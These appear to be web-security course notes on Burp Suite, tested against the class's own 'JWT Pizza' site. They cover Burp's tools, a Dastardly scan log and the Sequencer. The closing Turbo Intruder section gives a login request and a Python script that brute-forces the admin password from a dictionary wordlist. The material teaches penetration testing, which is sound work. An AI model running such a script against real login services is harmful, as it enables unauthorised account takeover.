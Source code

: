 # Burp Suite

[Download](https://portswigger.net/burp/communitydownload)

Burp Suite is a software security application used for penetration testing of web applications. Both a free and a paid version of the software are available. The software is developed by the company PortSwigger.[1][2] The suite includes tools such as a proxy server (Burp Proxy), an indexing robot (Burp Spider), an intrusion tool (Burp Intruder), a vulnerability scanner (Burp Scanner) and an HTTP repeater (Burp Repeater)

> Wikipedia

- **Proxy**: Intercepts and inspects web traffic between the browser and the server.
- **Scanner**: Automatically scans web applications for vulnerabilities.
- **Intruder**: Performs automated attacks to identify vulnerabilities like SQL injection, cross-site scripting (XSS), and more.
- **Repeater**: Allows manual testing by replaying individual HTTP requests.
- **Sequencer**: Analyzes the randomness of session tokens.
- **Decoder**: Decodes and encodes data in various formats.
- **Comparer**: Compares HTTP responses.
- **Extender**: Allows the integration of third-party extensions to enhance functionality.

## Dastardly

A security DAST (Dynamic Application Security Testing) tool is a type of software used to analyze web applications for security vulnerabilities while they are running. Unlike static analysis tools, which examine source code, DAST tools test applications from the outside in, simulating the actions of an attacker to identify vulnerabilities in real-time.

Really easy scan in your GitHub action workflow.

```yml
steps:
  - name: Run Dastardly Action Step
    uses: PortSwigger/dastardly-github-action@main
    with:
      target-url: 'https://pizza.cs329.click'
```

```sh
    §§§§§§§§§§§§§§§§§§§§§§§§\
    §                      § |
    §          ||          § |
    §         //           § |    §§§§§§§\                        §§\                               §§\ §§\
    §        //            § |    §§  __§§\                       §§ |                              §§ |§§ |
    §      /////|          § |    §§ |  §§ | §§§§§§\   §§§§§§§\ §§§§§§\    §§§§§§\   §§§§§§\   §§§§§§§ |§§ |§§\   §§\
    §          ||          § |    §§ |  §§ | \____§§\ §§  _____|\_§§  _|   \____§§\ §§  __§§\ §§  __§§ |§§ |§§ |  §§ |
    §          |/////      § |    §§ |  §§ | §§§§§§§ |\§§§§§§\    §§ |     §§§§§§§ |§§ |  \__|§§ /  §§ |§§ |§§ |  §§ |
    §            //        § |    §§ |  §§ |§§  __§§ | \____§§\   §§ |§§\ §§  __§§ |§§ |      §§ |  §§ |§§ |§§ |  §§ |
    §           //         § |    §§§§§§§  |\§§§§§§§ |§§§§§§§  |  \§§§§  |\§§§§§§§ |§§ |      \§§§§§§§ |§§ |\§§§§§§§ |
    §          ||          § |    \_______/  \_______|\_______/    \____/  \_______|\__|       \_______|\__| \____§§ |
    §                      § |                                                                              §§\   §§ |
    §§§§§§§§§§§§§§§§§§§§§§§§ |                                           from Burp Suite v2024.5.1-17301    \§§§§§§  |
    \________________________|                                                                               \______/

Installing or running Dastardly affirms your agreement to the Terms of Service https://portswigger.net/burp/dastardly/eula

2024-06-14 22:45:07 INFO  dastardly.StartDastardly - Using Java version 21.0.3
2024-06-14 22:45:19 INFO  bsee.BurpProcess.scan.scan-1 - [Thread: 102] 2024-06-14 10:45:19.945 249172783174, net.portswigger.Zoe INFO - connectedSocket, opened new socket: 2013517612
2024-06-14 22:45:19 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:45:15 INFORMATION - Running as super-user, browser sandbox is not supported
2024-06-14 22:45:19 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:45:17 INFORMATION - Crawl started.
2024-06-14 22:45:19 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:45:18 DEBUG - pizza.cs329.click is using HTTP/2
2024-06-14 22:45:24 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:45:24: CRAWLING -> crawlUniqueLocationsVisited:8, crawlRequestsMade:45, auditQueueItemsWaiting:0, auditQueueItemsCompleted:0, auditRequestsMade:0, insertionPointCount:0
2024-06-14 22:45:24 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:45:20 DEBUG - pizza-service.cs329.click is using HTTP/2
2024-06-14 22:45:24 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:45:24 DEBUG - images.unsplash.com is using HTTP/2
2024-06-14 22:46:50 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:46:50: Crawl finished
2024-06-14 22:46:50 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:46:50: Audit started
2024-06-14 22:46:54 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:46:54: AUDITING -> crawlUniqueLocationsVisited:23, crawlRequestsMade:548, auditQueueItemsWaiting:1, auditQueueItemsCompleted:5, auditRequestsMade:70, insertionPointCount:25
2024-06-14 22:46:54 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:46:50 INFORMATION - Crawl finished.
2024-06-14 22:46:54 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:46:50 INFORMATION - Audit started.
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /robots.txt, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /robots.txt, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /assets/index-CRT3bSBQ.css, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /assets/index-CRT3bSBQ.css, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /assets/index-BsFcYlwQ.js, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /assets/index-BsFcYlwQ.js, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /jwt-pizza-icon.png, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:54 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /jwt-pizza-icon.png, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:55 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:46:55: Audit finished
2024-06-14 22:46:59 INFO  bsee.BurpProcess.scan.scan-1 - 2024-06-14 10:46:59: SUCCEEDED -> crawlUniqueLocationsVisited:23, crawlRequestsMade:548, auditQueueItemsWaiting:0, auditQueueItemsCompleted:6, auditRequestsMade:70, insertionPointCount:25
2024-06-14 22:46:59 INFO  b.s.LoggingScanProgressCollector - Event log updated:
2024-06-14 22:46:59 INFO  b.s.LoggingScanProgressCollector - 2024-06-14 22:46:55 INFORMATION - Audit finished.
2024-06-14 22:46:59 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /version.json, Issue Type: Cross-origin resource sharing: arbitrary origin trusted, Severity: INFO
2024-06-14 22:46:59 INFO  b.s.IssueLoggingScanProgressCollector - Issue identified. Path: /version.json, Issue Type: Cross-origin resource sharing, Severity: INFO
2024-06-14 22:46:59 INFO  bsee.BurpProcess.scan.scan-1 - Received metric SUCCEEDED 70 23
2024-06-14 22:46:59 INFO  b.s.LoggingScanProgressCollector - Scan has completed successfully
```

## Sequencer

Get a request with a token or cookie in it. Use the sequencer to run the request a bunch of times and see if there is any sort of randomness to the token.

![alt text](sequencerToken.png)

![alt text](sequencerResults.png)

Note that this made thousands of requests. This can impact your AWS bill.

![alt text](sequencerCloudWatchMetrics.png)

## Comparer

This allows you to take any number o

![alt text](comparerResponse.png)

## Turbo Intruder

I couldn't get the standard intruder to work and so I used this extension. It is pretty fast.

https://www.youtube.com/watch?v=UMaZc3yV2Oo

![Use turbo intruder](useTurboIntruder.png)

Insert the parameter variable `%s`

```
PUT /api/auth HTTP/2
Host: pizza-service.cs329.click
Content-Length: 40
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "macOS"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://pizza.cs329.click
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://pizza.cs329.click/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

{"email":"admin@jwt.com","password":"%s"}
```

```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
#
#    engine.queue(target.req, 'admin')
#    engine.queue(target.req, 'a')

    for i in range(3, 8):
        engine.queue(target.req, randstr(i), learn=1)
        engine.queue(target.req, target.baseInput, learn=2)

    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    if '200 OK' in req.response:
        table.add(req)
```
